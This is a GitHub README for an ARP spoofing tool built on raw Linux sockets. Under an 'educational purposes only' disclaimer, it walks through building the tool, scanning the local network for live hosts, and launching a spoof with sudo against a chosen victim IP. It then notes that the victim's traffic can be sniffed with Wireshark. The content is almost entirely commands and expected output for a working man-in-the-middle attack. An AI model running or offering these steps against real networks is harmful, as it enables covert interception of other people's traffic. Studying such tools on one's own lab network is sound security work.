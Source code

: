 # ARPSTUFF
Raw linux sockets example of arp spoofing attack
**FOR EDUCATIONAL PURPOSES ONLY, USE ONLY IN YOUR OWN PRIVATE NETWORK!**

## Quick Start
Build:
```bash
./build.sh
```

Discover local addresses:
```bash
./arpstuff discover wlp1s0
```

After few seconds this will output alive local ips:
```
INFO: Starting local IPs discovery
    Netmask: 255.255.255.0
    Netaddr: 192.168.0.0
    Progress: 255/255 (3 alive)
INFO: Local network scanned, we found 3 ips: [192.168.0.1, 192.168.0.105, 192.168.0.101]
```

Select one of them and spoof it (this requires sudo, since it modifies iptables):
```bash
sudo ./arpstuff spoof wlp1s0 192.168.0.101
```

If you see the following message it means that the spoofing is running:
```
INFO: ARP spoof started on victim:
MAC: 11:12:13:14:15:16
IP:  192.168.0.101
```

At this point, the victim's traffic is passing through your machine. You can use wireshark (or any other network sniffer) to check it out.
